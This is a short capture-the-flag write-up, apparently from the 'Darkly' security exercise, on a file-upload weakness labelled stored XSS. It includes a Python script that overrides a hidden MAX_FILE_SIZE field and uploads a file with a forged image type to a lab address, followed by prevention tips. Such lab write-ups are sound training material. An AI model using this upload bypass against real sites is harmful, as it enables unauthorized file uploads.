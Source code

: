 # Stored XSS

## Description
Embed JavaScript in an SVG or HTML file to execute in users’ browsers.

## BornToSec
The upload image page contain a form with a hidden input to set the max file size and there is another input for the file. So the file cant be uploaded. 

Thats why i wrote a python script to change the max file size to 100000000 and upload a readme to simulate the attack.

```python
import requests

def upload_image(url, path):
    data = {'Upload': 'Upload', 'MAX_FILE_SIZE': 100000000}
    files = {'uploaded': (path, open(path, 'rb'), "image/jpeg")}
    request = requests.post(url, files=files, data=data)
    for line in request.text.splitlines():
        if 'flag' in line:
            print(line)


upload_image("http://10.11.249.222/?page=upload", "/Users/nesta/Desktop/42/darkly/README.md")
```

## How to prevent it 
- Validate file types and extensions on both client and server sides.
- Save files outside of web-accessible directories.
- Rename uploaded files to random names and avoid using user-supplied filenames.
- Implement Content Security Policies (CSP) to minimize risks from uploaded content.